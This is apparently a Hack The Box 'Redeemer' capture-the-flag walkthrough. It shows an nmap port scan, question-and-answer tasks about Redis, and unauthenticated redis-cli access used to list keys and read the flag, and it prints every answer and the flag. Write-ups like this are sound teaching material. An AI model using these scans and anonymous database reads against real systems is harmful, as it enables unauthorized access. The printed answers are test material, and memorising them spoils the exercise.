 # Redeemer

- **Category**: Starting Point - Tier 0
- **Difficulty**: Very Easy
- **Tags**: Redis, Vulnerability Assessment, Databases, Reconnaissance, Anonymous/Guest Access
- **Tools**: nmap, redis-cli (redis-tools)


# Walkthrough

- It's worth having a Redis CLI cheatsheet handy:
  - [Redis Cheat Sheet](https://lzone.de/cheat-sheet/Redis)
- `redis-cli` is provided by the `redis-tools` package


## Task 1: Which TCP port is open on the machine?

```bash
> nmap -sT -p- --min-rate=3000 10.129.136.187
Starting Nmap 7.93 ( https://nmap.org ) at 2023-07-06 16:43 AEST
Nmap scan report for 10.129.136.187
Host is up (0.23s latency).
Not shown: 58932 closed tcp ports (conn-refused), 6602 filtered tcp ports (no-response)
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT     STATE SERVICE
6379/tcp open  redis

Nmap done: 1 IP address (1 host up) scanned in 27.19 seconds
```

> **Answer**: 6379

## Task 2: Which service is running on the port that is open on the machine?

> **Answer**: redis

## Task 3: What type of database is Redis? Choose from the following options: (i) In-memory Database, (ii) Traditional Database

> **Answer**: In-memory Database

## Task 4: Which command-line utility is used to interact with the Redis server? Enter the program name you would enter into the terminal without any arguments.

> **Answer**: redis-cli

## Task 5: Which flag is used with the Redis command-line utility to specify the hostname?

> **Answer**: -h

## Task 6: Once connected to a Redis server, which command is used to obtain the information and statistics about the Redis server?

> **Answer**: info

## Task 7: What is the version of the Redis server being used on the target machine?

> **Answer**: 5.0.7

## Task 8: Which command is used to select the desired database in Redis?

> **Answer**: select

## Task 9: How many keys are present inside the database with index 0?

> **Answer**: 4

## Task 10: Which command is used to obtain all the keys in a database?

> **Answer**: keys *

# Submit Root Flag


```bash
# We can execute a command on the remote host
# Here we grab the info and grep for the version
> redis-cli -h 10.129.136.187 INFO | grep version

# Alternatively, we can start an interactive session
# Here we run through the steps to find the flag
> redis-cli -h 10.129.136.187
10.129.136.187:6379> info keyspace
# Keyspace
db0:keys=4,expires=0,avg_ttl=0
10.129.136.187:6379> select 0
OK
10.129.136.187:6379> keys *
1) "flag"
2) "temp"
3) "stor"
4) "numb"
10.129.136.187:6379> get flag
"03e1d2b376c37ab3f5319922053953eb"
10.129.136.187:6379> 
```

> **Answer**: 03e1d2b376c37ab3f5319922053953eb
